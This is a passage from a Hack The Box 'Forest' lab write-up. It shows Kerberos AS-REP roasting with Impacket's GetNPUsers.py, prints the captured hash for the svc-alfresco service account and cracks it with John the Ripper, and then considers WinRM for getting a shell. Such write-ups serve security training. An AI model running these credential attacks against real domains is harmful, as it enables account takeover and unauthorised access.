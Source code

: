 Let's set the command up:
```bash
# -dc-ip 10.10.10.161: Specify the IP of the DC we want to talk to
# -usersfile ~/hackthebox/forest/users.txt: The text file with each user name we want to ask about
# -format john: If we find a user without pre-auth set, get the AS-REP and give it to us in a format we can feed to John the Ripper.  If you want to use hashcat, you can use -format hashcat instead.
# htb.local/ is the domain (that forward slash is important)

python GetNPUsers.py -dc-ip 10.10.10.161 -usersfile ~/hackthebox/forest/users.txt -format john htb.local/ 
```

```bash
root@kali:/opt/impacket/examples# python GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -usersfile ~/hackthebox/forest/users.txt -format john
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:b2defca4d2eb571cb77fa05e040c0fb3$de3019e559c5c9d86f2cb555cdfd3b758f3cc8baa741ed53fd4bc2cd8b1d83f8c88284ef890ca5ba9c2d8f8822f757d133474ea4840586db0d8ab37ec89ba99140864cdd637154b3c42db5bcdd2c42064a44ca50534dd4429bf6c39046613d224fcbb9bb261564b8dce63f3a56abd745216f21a5e96a3975a90eb72be212b87be0b1639fc28753a71cfbf4f03da92db31b0529d02d5e1da28587ec1d68abffe0dee1e652bbda8ed9f16140f6f34de96fb162f72796e3975f20f6b61bc7a964cc354f93eb475e67599a3af39f77006545be90df57fc5ad14930b94f8f4dfbf70b44bb9736a1a0
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Cracking svc-alfresco's AS-REP
Looks like we have a hash for ```svc-alfresco```.  This is interesting because the ```svc``` in front implies it may be a service account.  Service accounts typically have additional privileges in a domain environment.  Passwords for service accounts rarely change because that would mean reconfiguring whatever service depends on that account, and if it ain't broke, don't fix it, right?

Let's copy that hash to a text file (I called it ```svc-alfresco_hash.john```) and see if John can crack it:
```bash
root@kali:~/hackthebox/forest# john svc-alfresco_hash.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:01 DONE (2019-12-01 08:47) 0.5181g/s 2116Kp/s 2116Kc/s 2116KC/s s521379846..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Using the Credentials
Awesome!  We have a plaintext password for ```svc-alfresco```.  What can we do with it?  We can try things like ```psexec``` or ```smbexec```, but since this is a modern version of Windows server, there is a decent chance that WinRM (Windows Remote Management) will be enabled.  WinRM is based on SOAP (Simple Object Access Protocol) which uses HTTP(S) to communicate<sup>[5]</sup>.  If WinRM is enabled, we will be able to get a shell very easily.  We can see if WinRM is listening by scanning for TCP port 5985 (port 5986 is used for WinRM over HTTPS).


[1]: https://docs.microsoft.com/en-us/windows-server/get-started/windows-server-release-info
[2]: https://github.com/SecureAuthCorp/impacket
[3]: https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
[4]: https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/
[5]: https://docs.microsoft.com/en-us/windows/win32/winrm/portal
[6]: https://github.com/Hackplayers/evil-winrm
[7]: https://github.com/BloodHoundAD/BloodHound
[8]: https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/
[9]: https://github.com/fox-it/BloodHound.py
[10]: https://blog.stealthbits.com/what-is-dcsync-an-introduction/
[11]: https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema
[12]: https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
[13]: https://sourceforge.net/projects/winexe/